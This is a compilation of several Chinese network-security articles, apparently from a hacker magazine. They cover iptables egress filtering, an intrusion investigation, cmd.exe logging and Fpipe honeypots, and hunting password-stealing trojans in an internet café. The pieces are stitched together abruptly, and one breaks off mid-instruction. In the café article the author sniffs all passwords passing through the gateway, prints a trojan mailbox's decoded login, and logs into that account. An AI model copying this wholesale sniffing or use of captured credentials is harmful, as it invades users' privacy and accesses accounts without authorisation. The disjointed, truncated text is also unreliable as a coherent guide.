根据 TCP 的三次握手，我们只需限制外出的 SYN 包就能阻断由内而外的 TCP 连接。另外，用 Tftp 或其他客户端反向搬取文件的攻击行为也很普遍，由于 Tftp 以及诸如 loki 之类的工具依赖 UDP，所以现在要把它彻底抹煞掉：

```bash
[root@ayazero foo]# iptables -A OUTPUT -o eth0 -p udp -j DROP
```

这样，我们的系统就被封得死死的，就像穿了一身铠甲只留个眼睛和鼻孔，外面有一层，里面还有一层。现在我们以另一个 Linux (Strike) 系统为客户端来测试一下服务：

```bash
[root@ayazero server]# iptables -L INPUT
Chain INPUT (policy ACCEPT)
target     prot opt source               destination
ACCEPT     tcp  --  anywhere             anywhere           tcp dpt:ssh
ACCEPT     tcp  --  anywhere             anywhere           tcp dpt:http
ACCEPT     all  --  anywhere             anywhere           state RELATED,ESTABLISHED
DROP       all  --  anywhere             anywhere

[root@ayazero server]# iptables -L OUTPUT
Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination
DROP       tcp  --  anywhere             anywhere           tcp flags:SYN,RST,ACK SYN
DROP       udp  --  anywhere             anywhere
```

（确认规则已经符合要求。）

```bash
[aya@Strike client]$ nmap -sT -P0 -vv ayazero
Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
```

/* 以 TCP connect() 正常方式扫描，禁止 PING 扫描，因为我们的系统会丢弃所有的 ICMP 包。如果不加 “-P0” 参数，会报告说目标看起来不在线。此外，如果使用原始套接字，即 “-sS” 参数的 SYN 扫描方式，需要 root 权限。*/

结果两次扫描均超时，而 nmap 没有任何回应，每次扫描约等待 15 分钟。这样的情况是正常的，如果使用 Nessus，就可看到 nmap 端口扫描时的进度条，半小时大约进度条只会有一点点。对类似的系统，如果没有几个小时的时间是没法完成一次常规端口扫描的，或者永远都不可能完成。这样的情况只能由 SuperScan 之类的东西去解决，如果用 nmap-2.54 没有这样的情况，那就是 nmap-3.0 的一个 BUG。

```bash
[root@ayazero server]# echo "test page!" >> /var/www/test.html
[root@ayazero server]# service httpd start
[aya@Strike client]$ lynx http://ayazero/test.html
```

看到了吧，然后我们再访问 sshd：

```bash
[aya@Strike client]$ ssh ayazero
```

登陆到服务器后能本地操作，但不能访问外部，比如尝试访问运行在 client:Strike 上的 Apache 和再反向 telnet 回到 Strike 的连接请求，均被拒绝！现象是超时退出，没有任何反应。如果此时需要对外操作，则可临时改变 iptables 的 OUTPUT 规则，或者清空 OUTPUT 链：

```bash
[aya@ayazero server]# iptables -F OUTPUT
```

接下来就能像在本地一样很自由地操作了。这里顺便提一下在 Windows 下的解决方法：执行“控制面板→管理工具→本地安全策略”，在 IP 安全策略里添加新的策略，限制源地址是“我的 IP”，目标地址是“任何 IP”类型的数据包。

#### 正解
这是为服务器操作系统提供的方案，不针对那些拿服务器聊天、看网页、下载电影的网管。个人系统没这个必要，也不可能这样做。系统管理员调试网络或 update 系统时，可临时把规则去掉。

#### 缺陷
以牺牲一定的易用性为代价，给管理人员带来额外的操作负担，并且不是所有的系统运行环境都能实现。

### 小结
反向管道和 DDoS 一样都是令人头疼的东西，似乎都没有完美的解决方案，而这篇文章更多的在于给大家提供一些思路！

---

最近给一个朋友的公司调试了一套软件系统，安装测试完毕后，再用防火墙、杀毒软件、查找漏洞等方法测试，系统运行正常！刚开始几天，系统很稳定，但没过几天，就听到机房里传来“嘀嘀嘀”的报警声，这是我根据系统安全防范而设置的一个报警程序，问题来了！

坐到电脑前，我以黑客的思路对症状进行了分析。根据我的判断，显然不是病毒，对方可能根据邮件地址、相关 IP 地址、漏洞特征等得到了相关信息，然后使用漏洞扫描器“入侵”，也可能获得了一定的权限，从而获得机密、进行破坏，再就是修改、删除系统日志等；最后按照他们的期望，安装后门如木马、添加账号等。根据黑客入侵的路线，我对入侵者的蛛丝马迹进行了逆向侦察。

### 一、端口分析

首先我进行了端口分析。因为一个端口就是一个潜在的通信通道，也就是一个入侵通道。对目标计算机进行端口扫描，能够得到许多有用信息，从而发现系统的安全漏洞。通过执行端口扫描，我注意到机器的 135、139、389 和 445 端口都是开放的（使用的是 Windows 2000 系统）。

我在命令行中输入 **netstat -a** 查看是否有可疑地方，然后用 Fport 端口查看工具查看使用端口的进程。大多数木马或后门都会打开一个自己的端口单独使用，因此从端口上查看能发现一些木马后门的踪迹。但这并不能对付所有木马，而且一些打开系统后门的方法也不能这样来检查。我注意到机器的端口 80 和 443 也是开放的，因此我对这个活动进行了检测。首先发生了端口扫描，在扫描过程中，网络的通信量有一个突然的增加。端口扫描通常表现为持续数分钟稳定的通信量增加，时间的长短取决于扫描端口的多少。键入以下命令 **netstat -p tcp -n** 后得到以下结果：

| Proto | Local Address | Foreign Address | State |
| :--- | :--- | :--- | :--- |
| TCP | 202.109.100.*:2572 | 127.199.34.42:135 | TIME_WAIT |
| TCP | 202.109.100.*:2984 | 127.199.34.42:1027 | TIME_WAIT |
| TCP | 202.109.100.*:3106 | 127.199.34.42:1444 | SYN_SENT |
| TCP | 202.109.100.*:3107 | 127.199.34.42:1445 | SYN_SENT |
| TCP | 202.109.100.*:3108 | 127.199.34.42:1446 | SYN_SENT |
| TCP | 202.109.100.*:3109 | 127.199.34.42:1447 | SYN_SENT |
| TCP | 202.109.100.*:3110 | 127.199.34.42:1448 | SYN_SENT |
| TCP | 202.109.100.*:3111 | 127.199.34.42:1449 | SYN_SENT |
| TCP | 202.109.100.*:3112 | 127.199.34.42:1450 | SYN_SENT |
| TCP | 202.109.100.*:3113 | 127.199.34.42:1451 | SYN_SENT |
| TCP | 202.109.100.*:3114 | 127.199.34.42:1452 | SYN_SENT |

在以上信息中，我注意到在本地和外部地址上都有大量的 SYN_SENT 信息，同时还有些 ESTABLISHED 或 TIME_WAIT 信息。可以判断：入侵信息的关键在于连续的端口序列和来自同一主机的大量连接。我心里琢磨着：有连接未必不是好事情，看看他是怎么和我连接的。

## 二、进程分析

为进一步提高安全性，我打开了任务管理器，看看有没有一些异常进程。对于每个进程，我根据经验进行了比较，特别是类似于系统名称的进程也进行了比较，因为入侵者命名的进程往往很接近系统进程名。当然，不排除一些入侵者使用可隐藏的进程通过系统进程来达到目的。根据机器状况和侦察软件的配合，没有发现异常情况。从目前的情况看，系统内还没有木马之类的入侵程序。

## 三、用户分析

为确定黑客是否进入系统，我打开“计算机管理”，查看是否有可疑用户出现，即在各个用户组里是否存在不该有的账号，特别是 Administrators 管理员组。按照一些黑客教程的惯用手法，他们通常把 Guest、TsInternetUser 这样的系统提供的账户添加到管理用户组里面去。

于是，我根据自己的猜测进行了测试。

首先是寻找网络中的弱点。Windows 网络口令用于使用 Web 服务器上的 Web 服务，这些网络登录信息对我来说最有用，因此决定朝这个方向试试。首先从一个机器下载账号名列表，从中选出一个很少使用的（例如 guest 账号）。我用这个账号尝试多次登录，直到它被锁住，这样就能推测设置的是什么账号锁定策略了。

启动脚本，并运行 Whisker 扫描程序，它使用我为 IIS 服务器编写的一个脚本来试探公共代理服务器信息。现在，我们可坐等结果了。

为验证我的猜测，根据系统的特点，打开“控制面板”中的“管理工具”，在“性能”里进行一些设置。果然，在我的探测过程中，从一些关键入侵检测记录器指标中接收到了许多警报信息。第一个是“Web Service - Connection Attempts/sec”，在此之前，我进行了设置，首先打开“管理工具”中的“性能”图标，添加计数器。

这个指标能显示出 Web 信息量的突然增加。另一个非常重要的计数器是 Web Service - Not Found Errors/sec。由于类似于 Whisker 的 Web 扫描器要检查指定 URL 的存在，因此以上性能计数器就会显示出通信量的急剧增长和 404 错误信息。预先设定通信量的正常水平，有扫描行为时，就会发出警报。

再查看共享文件夹，看是否出现不该有的共享；正常配置情况下应该取消所有共享。但黑客们为传送文件等方便，会再次打开一些共享。当然，大多数被入侵者打开的共享他们往往会忘记关闭。顺便再看看会话，呵，好厉害的角色！黑客还在发送信息呢！

于是我开始进一步分析。通常一些后门都被安装到系统目录下，而且“黑客”也喜欢将自己的文件放置在系统目录里，以方便执行（我们通常很少去检查系统目录）。我把备份文件列表和当前文件列表进行了比较，开始看不出什么区别，只是新增了类似系统文件名的程序。我开始仔细查看系统日志，然后查看所开服务的日志，比如 FTP、IIS 等日志。这个工作量较大。

因此，我决定从这些方面来查看，以减少工作量：是否出现日志记录被删除（入侵者通常消除它们的痕迹，一般都是删除整个日志或删除部分日志）；是否有可疑的账号登录（使用账号登录是最直接的入侵手段）；是否在不该出现的时间段内发生了不该有的事件，比如晚上 12 点大家下班后仍有管理员登录。我发现 IIS 日志详细记录了一个入侵者扫描 80 端口的全过程，以及他获得的有用信息，对于开启 Web 服务的服务器来说，多数入侵都能通过这里进入的。平时记日志时不仅应记录安全审计记录，还应做好一定程度上的跟踪记录。

在 Windows 2000 下主要有下面的一些日志，我们进行了查看：

- `C:\winnt\system32\logfiles\*.*`
- `C:\winnt\system32\config\*.evt`
- `C:\winnt\system32\dtclog\*.*`
- `C:\winnt\system32\*.log`
- `C:\winnt\system32\*.txt`
- `C:\winnt\*.txt`
- `C:\winnt\*.log`

打开“本地连接”的“属性”，在“TCP/IP 协议”的“属性”选项卡上单击“高级”按钮，然后选择“WINS”选项卡，启用或者禁用 NBT (NetBIOS)。经过处理后，再次执行命令 `nbtstat -a 202.109.100.*`，出现的是“Host Not Found”，没有共享了。

### 四、文件列表和日志分析与追踪入侵

在日志里，我找到了一些黑客记录。如何诱敌深入？如何查出入侵者的地理位置？光看 IP Address 可能看不出来。一般来说，140.xxx.xxx.xxx 很多都是学术网络的主机，而 168.95.xxx.xxx 一定是 HiNet 上网。在固定式的网络环境中，入侵者一定和网络提供商有密切的关系。因为假设是拨接，那么所谓绝对不出几公里，就算是拨接，也很少有人会花大笔钱去拨外县市甚至国外的拨接服务。所以，只要查出连线单位即可（入侵者必然离连线单位不远）。经过我的判断，这个连接用户的地址不属于这个范围，可能是拨接式的网络。

拨接式网络就比较令人头疼。现在许多 ISP 为吸引客户，卖了很多所谓小时卡、记点卡，不需申请，而且账号密码直接附在卡片上。黑客只要买了固定的小时数，不需另外向 ISP 提出申请，就可按卡片上的说明自行拨接上网。这样虽然吸引客户，但 ISP 就根本无从得知是谁在用他们的网络。也就是说，虽然小时卡给拨接使用者带来了便利，但却是系统安全的大敌。要从拨号的地点查吗？入侵者可不用自己名下的电话上网，可能是盗打街头电话，查到的发话来源绝不是入侵者自己的电话。一阵郁闷！

当然，我们可以制作陷阱来捕获入侵者，那就需要作好详细的准备工作，比如：安排好嗅探工具、设置好日志记录和跟踪等，保证能有足够的能力控制局面，并掌握主动。对于入侵者设置的后门，我们大可设计一个程序来模拟他们设置的后门，监听后门使用的端口，等待入侵者再次连接该端口，用我们安排的嗅探器来捕获。

应该说，问题到这一步也就截止了，因为系统已正常了。这时，那个公司的朋友询问我：“问题解决了吗？”从他的坏笑中，我明白了，这是他做的一场恶作剧，原来这是他通过一个长沙的朋友进行的一次入侵。这时，我才长长地呼了一口气。毕竟，只有详细地分析入侵，才可能更加有效地防范。

### 五、尾声

从这次事件中，我明白了不少道理。在真实生活中，24 小时内可能发生许多次攻击。有些只是简单的端口扫描，有些则是对站点的全面破坏。不管怎么样，都不应该漠然坐视。最好的方法是建立一个对自己网络有用的入侵检测系统：即通过 E-mail 或页面的方式发送警报信息，定时将当前运行的所有程序或网络连接写入日志文件。即编写一些脚本程序，并借助定时服务及少量的免费软件工具，我们就可建立一个实用的入侵检测系统。最重要的是要了解入侵者是如何行动的，并比他们抢先一步。

任何方案所保障的信息安全都并非绝对的。因此，谁也不敢宣称自己的系统无懈可击。安置在互联网上的服务器，也许哪一天就成了黑客的肉鸡，而管理员却毫无所知。所以，我们必须打造最后一道防线——跟踪系统被入侵后所发生的变动，以在最大程度上确保系统的安全。

本文要介绍的是在 Windows 环境下捕获黑客对系统所做修改的方法，以下是与本文相关的一些程序：

| 相关程序 | 说明 |
| :--- | :--- |
| ActivePerl.msi | Windows 下的 perl 解析器 |
| comlog101.zip | CMD 命令历史记录、蜜罐工具 |
| Regsnap | 监视注册表及系统文件变化的程序 |
| md5sum.exe | Windows 下用来进行 MD5 校验的工具 |

### 六、布置 Cmdlog

黑客在入侵服务器时，必定会对本机的 CMD 进行操作，如果我们可记录他们所执行的命令，也就能知道他们对系统所做的修改，甚至可借此跟踪黑客的行迹。Comlog 是个用 perl 编写的记录 cmd.exe 操作的程序，程序本身不会在进程列表中显示。以下是该程序的设置方法（用 cmdlog 替换 cmd.exe 程序）：

把 comlog101.zip 解压后有五个文件：cmd.exe、cmd101.pl、comlog.txt、md5.txt、README.txt。其中，“comlog.txt”和“README.txt”都是说明文件，“md5.txt”包含这五个文件的 MD5 校验和值。

我们可以使用 md5sum.exe 工具来检测一下它们是否遭受修改：

```bash
D:\comlog101>md5sum.exe *
f86ba5ffaa8800a2efa9093d2f11ae6f *cmd.exe
484c4708c17b5a120cb08e40498fea5f *com101.pl
001a6f9ca5f6cf01a230760ad9c6261a *comlog.txt
121bf60bc53999c90c6405440567064b *md5.txt
eb574b236133e60c989c6f472f07827b *md5sum.exe
42605ecfa6fe0f446c915a41396a7266 *README.TXT
```

把这些数字和 md5.txt 的数字对比，如果出现不一致，就证明程序遭受修改。

> 注意：MD5 是用来进行完整性校验的工具，不同文件的 MD5 值是不同的。因此，我们只要对程序的 MD5 进行校验，就可知道程序是否被修改。这种方法通常用于跟踪病毒、木马对系统文件的感染情况。

在校验无误之后，我们就可覆盖系统的 cmd.exe。打开资源管理器，选择“工具→文件夹选项→查看”，把“隐藏受保护的操作系统文件”前的勾去掉，并选择“显示所有文件和文件夹”。点击“确定”。

然后找到 `C:\WINNT\system32\dllcache` 目录，找到 cmd.exe，把它改名成 cm_.exe，再把 comlog101.zip 里的“cmd.exe”和“com101.pl”复制到这里；并把 `C:\WINNT\system32` 下的 cmd.exe 也改成 cm_.exe，同样把 comlog101.zip 里的“cmd.exe”和“com101.pl”复制到这里。在此期间，系统会提醒你系统文件遭到修改，问你是否修复，选择取消就可以了。然后在 `C:\WINNT\Help` 目录...

## 给普通盗贼架设保护 WEB 服务器

其实，这个问题可通过端口重定向来解决。端口重定向一般用来突破网关，在这里我们抛砖引玉，可用它来做转向服务。这里我们要借助的工具是 Fpipe（13KB）。





我们在 CMD 下键入 `c:\>fpipe.exe -l 80 -s 53 -r 8080 192.168.0.1`，回车后显示结果如图4。此命令表示将连接本机 80 端口的主机通过 53 端口连接到 WEB 服务器，端口为我们设定的 8080。

```bash
c:\>fpipe.exe -l 80 -s 53 -r 8080 192.168.0.1
```



我们再到 IE 地址栏键入 `http://192.168.0.1/`，这时发现竟然连接到了 `http://192.168.0.1:8080`，如图5。

## 安全第一



当别人访问你的网站时，会通过 53 端口连接到我们设置的 8080 端口，Fpipe 实现了转接服务，而“蜜罐”做到了诱骗“黑客”的作用，这样对你的 WEB 服务器来说是很安全的。


下面我们再来看 Fpipe 的运行方式。在图6中可清楚看到端口的走向。接下来，我们再来测试一下黑客的攻击，这里我们以 idq 为例进行说明（图7）。呵呵！这里是不能溢出的，因为这是我们设置的“蜜罐”。看看它的反应，如图8。


在这里我们可看见“黑客”的一举一动。为了验证这是一个“蜜罐”，我们 telnet 一下，如图9。


到此，本文结束。当然，“蜜罐”的用法还有很多种，就看大家的自由发挥了。

> （注：本文提到的 Trap Server、Fpipe 光盘中有收录）

QQ号被盗、游戏密码被盗、邮箱密码被盗……现在的网络似乎越来越不安全。这不，一位经常去网吧的好友找上门来，让我给帮忙检查一下网吧的机器。最近他网吧里很多账号莫名其妙地被盗，生意也越来越差。为朋友两肋插刀，这样的事情怎好拒绝？于是提枪跨马杀入。

到了网吧巡视了一圈，居然有150台电脑。没办法，硬着头皮做吧！手工检测完三台电脑用了15分钟，照这个速度检测完所有的机器至少需要十来个小时，这个结果真让人无法接受！坐在网吧的电脑前静静发呆，突然想到了查杀QQ杀手的情形。在查杀时我利用网络嗅探找到了木马的接收邮箱和密码，虽然现在不需要得到木马的邮箱和密码，但似乎可以利用它找到中了木马的机器哦！说干就干。

## 嗅探器抓包

由于朋友的网络全部采用交换机连接，所以我只有在网关服务器上做以下操作了。

首先下载 xsniff.exe，并在网关服务器上用以下命令运行：

```bash
xsniff.exe -pass -log pass.log
```

此命令用来嗅探所有经过网关服务器发送的密码信息，并记录在 pass.log 文件中（xsniff.exe 的使用在《黑客X档案》以前的期刊中有介绍，这里就不多说了）。没一会 xsniff 的窗口中就出现了大量信息，如图1。


```text
TCP [11/11/03 22:58:15]
219.139.220.54->202.108.44.205 Port: 1433->25
USER: bXlxcTg4NDg=[myqq8848]

TCP [11/11/03 22:58:15]
219.139.220.54->202.108.44.205 Port: 1433->25
PASS: cXFnaG9zdHN5c3RlbQ==[qqghostsystem]
```

从这里的信息可看到，发送邮件用的服务器是 202.108.44.205（这是网易的邮件服务器），账号是 myqq8848，密码是 qqghostsystem。但并没有我们想要的具体发送机器的信息。先不管他，上邮箱看看，弄清楚木马的类型也好啊！用上面的账号和密码登录网易的邮箱，发现邮箱里面有很多退信（图2）。


稍稍翻阅了一下邮件内容，发现木马的名字叫 QQ键侠。该木马不需写入自己的邮箱账号和密码，而是全部使用 myqq8848@163.com 来发送密码邮件，看来现在“牧马人”的保密意识也提高了。没办法，还是得回到网关服务器，继续找余下机器的线索。既然 xsniff.exe 不能嗅探详细的 IP 数据，那么我们可以换一个专业的网络抓包工具来尝试一下。这里最专业的工具非 sniffer pro 莫属了，但它是英文界面，并且抓取数据异常详细，如果我现在网关上嗅探，下面100多台机器的数据全抓下来够你分析几天的了。


大家还没有忘记 X-WAY 2.5 吧！它也有网络抓包的功能，并且还能设置监听规则。这里为了方便，笔者就用 X-WAY 2.5 来抓包了。

用 X-WAY 2.5 抓包前，先要设置它的嗅探规则。我们知道，所有利用 SMTP 服务器发送的邮件都会跟 25 端口联系，现在我们在嗅探规则里只要设置监视任何 25 端口的连接就可以了，如图3。设置完毕以后即可开始抓包，不一会就出现了图4的情况。


从图4中可看到 219.139.220.54（本机公网IP）的 1433 端口连接了 202.108.44.205（网易邮件服务器）的 25 端口，我们会看出更多线索。到网易邮件服务器的 25 端口对 192.168.0.10（下面的客户机）的 1433 端口做出了回应。

这里需要说明一下，因为网关服务器起到的是一个数据转发的过程，所以一旦目标 IP 响应后，即刻开始建立源 IP 与目标 IP 之间的连接通道。从上面也可看出，实际是 192.168.0.10 首先对网易服务器发出了连接请求。从图 4 中我们可看出 192.168.0.10 上面有木马存在。

立即去 192.168.0.10 上查杀，果然发现木马程序。关于这个木马的查杀过程我就不详细说明了，无非就是查进程、杀进程、删文件的过程。QQ 密侦伪装的文件名是 DESKTOP.EXE，删除这个文件就 OK 了。


接下来一个多小时里，我通过上面的方法找到了二十多台带有木马的机器。本来事情到此就该终结，但朋友问了一个问题：以后还会再丢密码吗？这个问题较难回答！如果有人又下木马，密码当然还会丢。不过，正是这个问题启发了我，能不能做个设置让未来的同类型木马全部失效呢？答案是可以的。

首先，我们来分析一下目前同类型木马的工作原理。当一个盗窃密码的木马程序成功运行后，它将监视指定的窗口、进程、输入等，具体方法每个木马都不一样，但大致都相同。当木马得到密码后，一般是使用木马内定的 SMTP 邮件服务器将密码包含在邮件内发送到指定信箱。从这里我们可以总结出：盗窃密码的木马基本上都会使用到 SMTP 服务，换句话说，即只要中了类似木马的机器都会访问远程服务器（SMTP 邮件服务器）的 25 端口。

OK！现在再回过头来看看图 4，我们可以发现木马与邮件服务器的连接过程。假设连接不成功，当然密码邮件也就不会被发送。那怎样才能不成功呢？我们可使用 Win2000 自带的 IPSEC 来实现。

现在我们来看看具体怎么设置。执行“开始→程序→控制面板→管理工具→本地安全策略→IP 安全策略在本地机器→创建 IP 策略”，后面步骤请参阅《黑客 X 档案》2003 年第 9 期的专题——《迷墙》中的图 18—图 28。

接下来的地方跟《迷墙》有些不同了，《迷墙》是拦截了任何 IP 的任何端口访问本机的特定端口，而这里我们要拦截掉本地 IP 的特定端口与任何 IP 的特定端口的连接。继续设置，如图 5，这里的“源地址”选择“我的 IP 地址”。


点击“下一步”，这里的“目标地址”选择“任何 IP 地址”（图 6）。


点击“下一步”，将协议类型选为“TCP”（参考《迷墙》中的图 31）。然后继续“下一步”，来到图 7 的地方。

我们按照图 7 所示进行设置。为什么要这样设置呢？大家可以看到这里有 2 个地方可以填入规则。上面一个设置是图 5 指定的源地址的设置，下面一个是指定的目的地址的设置。我们要达到的目的是不允许网关服务器（源地址）访问任何 IP（目的地址）的 25 端口，所以这里在下面的设置中禁止 25 端口即可。这步设置完后，可参照《迷墙》中的图 33 至图 40，直到完成并应用设置。


全部设置就绪后，我们可测试一下，看看目前是什么效果。还是使用 X-WAY 2.5 来嗅探，按照图 3 设置完成后开始嗅探。等了好久，抓不到要抓的数据。想了半天，原来下面的客户机都已经没有木马程序了，哈哈！不要紧，这边继续嗅探，自己下去再装一个木马，然后登录一下 QQ。回来后发现嗅探到图 8 所示内容。


这时，我们可看到嗅探记录到了三个相关的连接数据。有朋友可能会问：不是禁止连接远端的 25 端口了吗？怎么还能嗅探到与远程 25 端口的连接呢？其实这个问题很简单，嗅探器的位置是在系统与网络设备之间，虽然网络设备发出了请求，但刚刚设置的 IPSEC 规则会生效并拦截，实际上这个请求并没有发送成功而被直接丢弃。既然远端服务没有收到请求，那么下面的发送邮件当然也是不可能的事了。

通过实际测试，经过设置后，所有依赖 SMTP 服务发送密码的木马程序将全部失效。写到这里，应该完结了，这样的设置在网吧应用中应该没有什么问题。唯一要指出的是，如果网吧使用 Foxmail 或 Outlook 等专用软件发送 Email，同样也会被拦截。现在在网上发邮件的朋友，几乎都是直接登录到 WEB 邮局来收发邮件，WEB 邮局使用的是 80 端口，所以并不影响邮件的正常发送。

> 注：本文用到的 Xsniff、X-WAY 2.5 光盘中有收录

## 安全第一


最近，处于多事之秋的微软操作系统又出现了大漏洞，而且它们还真的怕寂寞，一出来就是几个！这个微软的 NT 用户又郁闷了！大家又有得玩了，不知大家最近玩得开不开心（这时只听台下齐声说：“开心”）？管理员可就倒霉了。不过，各位管理员也不用过于担心，只要把我们的系统配置好，顶住这些漏洞攻击还是有办法的。由于最近微软漏洞较多，现在我来说说如何减少被黑客利用这些漏洞攻击的成功率。

请大家不要误会，这次我只针对最近的溢出漏洞来说，只谈加强对这方面的防范，其他方面的安全配置我就不说了。开篇前我希望大家知道：虽然最近微软的操作系统溢出漏洞不断，但主要归咎于微软系统中安装完后默认开放的三个端口，即 135、139、445 端口。这三个端口提供了对内、对外的共享服务等。也正是这个原因，黑客利用这些漏洞对目标机器进行攻击，通过事先做好的工具或使用超长字节等方式使系统在处理响应这些信息的过程中出错，造成缓冲区溢出。而对于这些端口，别说管理员对此鞭长莫及，就连对字节比特敏感的程序员而言，解决起来也挺头痛的。

好了，现在我们来开始对上面提到的问题进行相关防范，以减少、避免因系统的漏洞造成机器被黑客攻陷，防范方法可分为以下几点：

### 1. 关闭不必要的系统服务

一提到关闭某些不必要的系统服务，对 NT 操作系统较为熟悉、读过安全配置文章的朋友都会觉得这是个被说烂了的话题。这我知道，我也看过很多安全配置方面的文章，都提到了关闭不必要的系统服务，但我在这里为什么要重提这个话题呢？且听我说。

